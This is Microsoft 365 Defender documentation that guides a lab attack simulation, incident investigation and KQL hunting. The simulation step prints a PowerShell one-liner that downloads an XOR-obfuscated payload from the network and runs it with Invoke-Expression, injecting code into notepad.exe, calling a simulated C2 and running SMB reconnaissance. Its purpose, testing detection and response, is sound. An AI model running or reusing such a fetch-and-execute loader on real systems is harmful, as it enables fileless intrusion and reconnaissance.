# Run your Microsoft 365 Defender attack simulations

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


|[](m365d-pilot-plan.md)<br/>[Planning](m365d-pilot-plan.md)|[](prepare-m365d-eval.md)<br/>[Preparation](prepare-m365d-eval.md)|<br/>Simulate attack|[](m365d-pilot-close.md)<br/>[Close and summarize](m365d-pilot-close.md)|
|--|--|--|--|
|||*You are here!*||

You're currently in the attack simulation phase.

After preparing your pilot environment, it's time to test the Microsoft 365 Defender incident management and automated investigation and remediation capabilities. We'll help you to simulate a sophisticated attack that leverages advanced techniques to hide from detection. The attack enumerates opened Server Message Block (SMB) sessions on domain controllers and retrieves recent IP addresses of users' devices. This category of attacks usually doesn't include files dropped on the victim's device—they occur solely in memory. They "live off the land" by using existing system and administrative tools and inject their code into system processes to hide their execution, Such behavior allows them to evade detection and persist on the device.

In this simulation, our sample scenario starts with a PowerShell script. A user might be tricked into running a script. Or the script might run from a remote connection to another computer from a previously infected device—the attacker attempting to move laterally in the network. Detection of these scripts can be difficult because administrators also often run scripts remotely to carry out various administrative activities.



During the simulation, the attack injects shellcode into a seemingly innocent process. The scenario requires the use of notepad.exe. We chose this process for the simulation, but attackers would more likely target a long-running system process, such as svchost.exe. The shellcode then goes on to contact the attacker's command-and-control (C2) server to receive instructions on how to proceed. The script attempts executing reconnaissance queries against the domain controller (DC). Reconnaissance allows an attacker to get information about recent user login information. Once attackers have this information, they can move laterally in the network to get to a specific sensitive account

> [!IMPORTANT]
> For optimum results, follow the attack simulation instructions as closely as possible.

## Simulation environment requirements

Since you have already configured your pilot environment during the preparation phase, ensure that you have two devices for this scenario: a test device and a domain controller.

1. Verify your tenant has [enabled Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).

2. Verify your test domain controller configuration:

   - Device runs with Windows Server 2008 R2 or a later version.
   - The test domain controller to [Microsoft Defender for Identity](/azure/security-center/security-center-wdatp) and enable [remote management](/windows-server/administration/server-manager/configure-remote-management-in-server-manager).
   - Verify that [Microsoft Defender for Identity and Microsoft Cloud App Security integration](/cloud-app-security/mdi-integration) have been enabled.
   - A test user is created on your domain – no admin permissions needed.

3. Verify test device configuration:

   1. Device runs with Windows 10 version 1903 or a later version.

   1. Test device is joined to the test domain.

   1. [Turn on Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).

   1. Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.

## Run the attack scenario simulation

To run the attack scenario simulation:

1. Log in to the test device with the test user account.

2. Open a Windows PowerShell window on the test device.

3. Copy the following simulation script:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks. Download this document and open it on Adobe Reader.

4. At the prompt, paste and run the copied script.

> [!NOTE]
> If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work. Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.

A few seconds later, <i>notepad.exe</i> will open. A simulated attack code will be injected into notepad.exe. Keep the automatically generated Notepad instance open to experience the full scenario.

The simulated attack code will attempt to communicate to an external IP address (simulating the C2 server) and then attempt reconnaissance against the domain controller through SMB.

You'll see a message displayed on the PowerShell console when this script completes.

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

To see the Automated Incident and Response feature in action, keep the notepad.exe process open. You'll see Automated Incident and Response stop the Notepad process.

## Investigate an incident

> [!NOTE]
> Before we walk you through this simulation, watch the following video to see how incident management helps you piece the related alerts together as part of the investigation process, where you can find it in the portal, and how it can help you in your security operations:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Switching to the SOC analyst point of view, you can now start to investigate the attack in the Microsoft 365 Security Center portal.

1. Open the [Microsoft 365 Security Center portal](https://security.microsoft.com/incidents) incident queue from any device.

2. Navigate to **Incidents** from the menu.

    

3. The new incident for the simulated attack will appear in the incident queue.

    

### Investigate the attack as a single incident

Microsoft 365 Defender correlates analytics and aggregates all related alerts and investigations from different products into one incident entity. By doing so, Microsoft 365 Defender shows a broader attack story, allowing the SOC analyst to understand and respond to complex threats.

The alerts generated during this simulation are associated with the same threat, and as a result, are automatically aggregated as a single incident.

To view the incident:

1. Navigate to the **Incidents** queue.

   

2. Select the newest item by clicking on the circle located left of the incident name. A side panel displays additional information about the incident, including all the related alerts. Each incident has a unique name that describes it based on the attributes of the alerts it includes.

   

   The alerts that show in the dashboard can be filtered based on service resources: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender for Endpoint, Microsoft 365 Defender, and Microsoft Defender for Office 365.

3. Select **Open incident page** to get more information about the incident.

   In the **Incident** page, you can see all the alerts and information related to the incident. The information includes the entities and assets that are involved in the alert, the detection source of the alerts (Microsoft Defender for Identity, EDR), and the reason they were linked together. Reviewing the incident alert list shows the progression of the attack. From this view, you can see and investigate the individual alerts.

   You can also click **Manage incident** from the right-hand menu, to tag the incident, assign it to yourself, and add comments.

   

   

### Review generated alerts

Let's look at some of the alerts generated during the simulated attack.

> [!NOTE]
> We'll walk through only a few of the alerts generated during the simulated attack. Depending on the version of Windows and the Microsoft 365 Defender products running on your test device, you might see more alerts that appear in a slightly different order.



#### Alert: Suspicious process injection observed (Source: Microsoft Defender for Endpoint EDR)

Advanced attackers use sophisticated and stealthy methods to persist in memory and hide from detection tools. One common technique is to operate from within a trusted system process rather than a malicious executable, making it hard for detection tools and security operations to spot the malicious code.

To allow the SOC analysts to catch these advanced attacks, deep memory sensors in Microsoft Defender for Endpoint provide our cloud service with unprecedented visibility into a variety of cross-process code injection techniques. The following figure shows how Defender for Endpoint detected and alerted on the attempt to inject code to <i>notepad.exe</i>.



#### Alert: Unexpected behavior observed by a process run with no command-line arguments (Source: Microsoft Defender for Endpoint EDR)

Microsoft Defender for Endpoint detections often target the most common attribute of an attack technique. This method ensures durability and raises the bar for attackers to switch to newer tactics.

We employ large-scale learning algorithms to establish the normal behavior of common processes within an organization and worldwide and watch for when these processes show anomalous behaviors. These anomalous behaviors often indicate that extraneous code was introduced and are running in an otherwise trusted process.

For this scenario, the process <i>notepad.exe</i> is exhibiting abnormal behavior, involving communication with an external location. This outcome is independent of the specific method used to introduce and execute the malicious code.

> [!NOTE]
> Because this alert is based on machine-learning models that require additional backend processing, it might take some time before you see this alert in the portal.

Notice that the alert details include the external IP address—an indicator that you can use as a pivot to expand investigation.

Select the IP address in the alert process tree to view the IP address details page.



The following figure displays the selected IP Address details page (clicking on IP address in the Alert process tree).


#### Alert: User and IP address reconnaissance (SMB) (Source: Microsoft Defender for Identity)

Enumeration using Server Message Block (SMB) protocol enables attackers to get recent user logon information that helps them move laterally through the network to access a specific sensitive account.

In this detection, an alert is triggered when the SMB session enumeration runs against a domain controller.



### Review the device timeline [Microsoft Defender for Endpoint]

After exploring the various alerts in this incident, navigate back to the incident page you investigated earlier. Select the **Devices** tab in the incident page to review the devices involved in this incident as reported by Microsoft Defender for Endpoint and Microsoft Defender for Identity.

Select the name of the device where the attack was conducted, to open the entity page for that specific device. In that page, you can see alerts that were triggered and related events.

Select the **Timeline** tab to open the device timeline and view all events and behaviors observed on the device in chronological order, interspersed with the alerts raised.



Expanding some of the more interesting behaviors provides useful details, such as process trees.

For example, scroll down until you find the alert event **Suspicious process injection observed**. Select the **powershell.exe injected to notepad.exe process** event below it, to display the full process tree for this behavior under the **Event entities** graph on the side pane. Use the search bar for filtering if necessary.



### Review the user information [Microsoft Cloud App Security]

On the incident page, select the **Users** tab to display the list of users involved in the attack. The table contains additional information about each user, including each user's **Investigation Priority** score.

Select the user name to open the user's profile page where further investigation can be conducted. [Read more about investigating risky users](/cloud-app-security/tutorial-ueba#identify).



## Automated investigation and remediation

> [!NOTE]
>Before we walk you through this simulation, watch the following video to get familiar with what automated self-healing is, where to find it in the portal, and how it can help in your security operations:

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Navigate back to the incident in the Microsoft 365 Security Center portal. The **Investigations** tab in the **Incident** page shows the automated investigations that were triggered by Microsoft Defender for Identity and Microsoft Defender for Endpoint. The screenshot below displays only the automated investigation triggered by Defender for Endpoint. By default, Defender for Endpoint automatically remediates the artifacts found in the queue, which requires remediation.



Select the alert that triggered an investigation to open the **Investigation details** page. You'll see the following details:

- Alert(s) that triggered the automated investigation.
- Impacted users and devices. If indicators are found on additional devices, these additional devices will be listed as well.
- List of evidence. The entities found and analyzed, such as files, processes, services, drivers, and network addresses. These entities are analyzed for possible relationships to the alert and rated as benign or malicious.
- Threats found. Known threats that are found during the investigation.

> [!NOTE]
> Depending on timing, the automated investigation might still be running. Wait a few minutes for the process to complete before you collect and analyze the evidence and review the results. Refresh the **Investigation details** page to get the latest findings.


During the automated investigation, Microsoft Defender for Endpoint identified the notepad.exe process, which was injected as one of the artifacts requiring remediation. Defender for Endpoint automatically stops the suspicious process injection as part of the automated remediation.

You can see <i>notepad.exe</i> disappear from the list of running processes on the test device.

## Resolve the incident

After the investigation is complete and confirmed to be remediated, close the incident.

Select **Manage incident**. Set the status to **Resolve incident** and select the relevant classification.

When the incident is resolved, it closes all of the associated alerts in Microsoft 365 Security Center and in the related portals.



This wraps up the attack simulation for the incident management and automated investigation and remediation scenarios. The next simulation will take you through proactive threat hunting for potentially malicious files.

## Advanced hunting scenario

> [!NOTE]
> Before we walk you through the simulation, watch the following video to understand the advanced hunting concepts, see where you can find it in the portal, and know how it can help you in your security operations:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### Hunting environment requirements

There's a single internal mailbox and device required for this scenario. You'll also need an external email account to send the test message.

1. Verify that your tenant has [enabled Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).
2. Identify a target mailbox to be used for receiving email.
    a. This mailbox must be monitored by Microsoft Defender for Office 365
    b. The device from requirement 3 needs to access this mailbox
3. Configure a test device:
    a. Make sure you are using Windows 10 version 1903 or later version.
    b. Join the test device to the test domain.
    c. [Turn on Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). If you are having trouble enabling Windows Defender Antivirus, see [this troubleshooting topic](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).
    d. [Onboard to Microsoft Defender for Endpoint](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

### Run the simulation

1. From an external email account, send an email to the mailbox identified in step 2 of the test environment requirements section. Include an attachment that will be allowed through any existing email filter policies. This file does not need to be malicious or an executable. Suggested file types are <i>.pdf</i>, <i>.exe</i> (if allowed), or Office document such as a Word file.
2. Open the sent email from the device configured as defined in step 3 of the test environment requirements section. Either open the attachment or save the file to the device.

#### Go hunting

1. Open the security.microsoft.com portal.

2. Navigate to **Hunting > Advanced hunting**.

   

3. Build a query that starts by gathering email events.

   1. From the query pane, select New.

   1. Double-click on the EmailEvents table from the schema.

      ```console
      EmailEvents
      ```

   1. Change the time frame to the last 24 hours. Assuming the email you sent when you ran the simulation above was in the past 24 hours, otherwise change the time frame.

      

   1. Run the query. You may have many results depending on the environment for the pilot.

      > [!NOTE]
      > See the next step for filtering options to limit data return.

      

        > [!NOTE]
        > Advanced hunting displays query results as tabular data. You can also opt to view the data in other format types such as charts.

   1. Look at the results and see if you can identify the email you opened. It may take up to 2 hours for the message to show up in advanced hunting. If the email environment is large and there are many results, you might want to use the **Show Filters option** to find the message.

      In the sample, the email was sent from a Yahoo account. Click the **+** icon beside **yahoo.com** under the SenderFromDomain section and then click **Apply** to add the selected domain to the query. Use the domain or email account that was used to send the test message in step 1 of Run the Simulation to filter your results. Run the query again to get a smaller result set to verify that you see the message from the simulation.

      

      ```console
      EmailEvents
      | where SenderMailFromDomain == "yahoo.com"
      ```

   1. Click the resulting rows from the query so you can inspect the record.

      

4. Now that you have verified that you can see the email, add a filter for the attachments. Focus on all emails with attachments in the environment. For this scenario, focus on inbound emails, not those that are being sent out from your environment. Remove any filters you have added to locate your message and add "| where **AttachmentCount > 0** and **EmailDirection** == **"Inbound""**

   The following query will show you the result with a shorter list than your initial query for all email events:

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   ```

5. Next, include the information about the attachment (such as: file name, hashes) to your result set. To do so, join the **EmailAttachmentInfo** table. The common fields to use for joining, in this case are **NetworkMessageId** and **RecipientObjectId**.

   The following query also includes an additional line "| **project-rename EmailTimestamp=Timestamp**" that'll help identify which timestamp was related to the email versus timestamps related to file actions that you'll add in the next step.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   ```

6. Next, use the **SHA256** value from the **EmailAttachmentInfo** table to find **DeviceFileEvents** (file actions that happened on the endpoint) for that hash. The common field here will be the SHA256 hash for the attachment.

   The resulting table now includes details from the endpoint (Microsoft Defender for Endpoint) such as device name, what action was done (in this case, filtered to only include FileCreated events), and where the file was stored. The account name associated with the process will also be included.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   | join DeviceFileEvents on SHA256
   | where ActionType == "FileCreated"
   ```

   You've now created a query that'll identify all inbound emails where the user opened or saved the attachment. You can also refine this query to filter for specific sender domains, file sizes, file types, and so on.

7. Functions are a special kind of join, which let you pull more TI data about a file like its prevalence, signer and issuer info, etc. To get more details on the file, use the **FileProfile()** function enrichment:

    ```console
    EmailEvents
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```

#### Create a detection

Once you have created a query that identifies information that you'd like to **get alerted** about if they happen in the future, you can create a custom detection from the query.

Custom detections will run the query according to the frequency you set, and the results of the queries will create security alerts, based on the impacted assets you choose. Those alerts will be correlated to incidents and can be triaged as any other security alert generated by one of the products.

1. On the query page, remove lines 7 and 8 that were added in step 7 of the Go hunting instructions and click **Create detection rule**.

   

   > [!NOTE]
   > If you click **Create detection rule** and you have syntax errors in your query, your detection rule won't be saved. Double-check your query to ensure there's no errors.

2. Fill in the required fields with the  information that will allow the security team to understand the alert, why it was generated, and what actions you expect them to take.

   

   Ensure that you fill out the fields with clarity to help give the next user an informed decision about this detection rule alert

3. Select what entities are impacted in this alert. In this case, select **Device** and **Mailbox**.

   

4. Determine what actions should take place if the alert is triggered. In this case, run an antivirus scan, though other actions could be taken.

   

5. Select the scope for the alert rule. Since this query involve devices, the device groups are relevant in this custom detection according to Microsoft Defender for Endpoint context. When creating a custom detection that does not include devices as impacted entities, scope does not apply.

   

   For this pilot, you might want to limit this rule to a subset of testing devices in your production environment.

6. Select **Create**. Then, select **Custom detection rules** from the navigation panel.

   

   

   From this page, you can select the detection rule, which will open a details page.

   

### Additional advanced hunting walk-through exercises

To learn more about advanced hunting, the following webcasts will walk you through the capabilities of advanced hunting within Microsoft 365 Defender to create cross-pillar queries, pivot to entities and create custom detections and remediation actions.

> [!NOTE]
> Be prepared with your own GitHub account to run the hunting queries in your pilot test lab environment.

|Title|Description|Download MP4|Watch on YouTube|CSL file to use|
|---|---|---|---|---|
|Episode 1: KQL fundamentals|We'll cover the basics of advanced hunting capabilities in Microsoft 365 Defender. Learn about available advanced hunting data and basic KQL syntax and operators.|[MP4](https://aka.ms/MTP15JUL20_MP4)|[YouTube](https://youtu.be/0D9TkGjeJwM)|[Episode 1: CSL file in Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl)|
|Episode 2: Joins|We'll continue learning about data in advanced hunting and how to join tables together. Learn about inner, outer, unique, and semi joins, and the nuances of the default Kusto innerunique join.|[MP4](https://aka.ms/MTP22JUL20_MP4)|[YouTube](https://youtu.be/LMrO6K5TWOU)|[Episode 2: CSL file in Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl)|
|Episode 3: Summarizing, pivoting, and visualizing data|Now that we're able to filter, manipulate, and join data, it's time to start summarizing, quantifying, pivoting, and visualizing. In this episode, we'll cover the summarize operator and some of the calculations you can perform while diving into additional tables in the advanced hunting schema. We turn our datasets into charts that can help improve analysis.|[MP4](https://aka.ms/MTP29JUL20_MP4)|[YouTube](https://youtu.be/UKnk9U1NH6Y)|[Episode 3: CSL file in Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl)|
|Episode 4: Let's hunt! Applying KQL to incident tracking|Time to track some attacker activity! In this episode, we'll use our improved understanding of KQL and advanced hunting in Microsoft 365 Defender to track an attack. Learn some of the tips and tricks used in the field to track attacker activity, including the ABCs of cybersecurity and how to apply them to incident response.|[MP4](https://aka.ms/MTP5AUG20_MP4)|[YouTube](https://youtu.be/2EUxOc_LNd8)|[Episode 4: CSL file in Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl)|
|

## Next step

| <br>[Closing and summary phase](m365d-pilot-close.md)|Analyze your Microsoft 365 Defender pilot outcome, present them to your stakeholders, and take the next step.
|:-----|:-----|
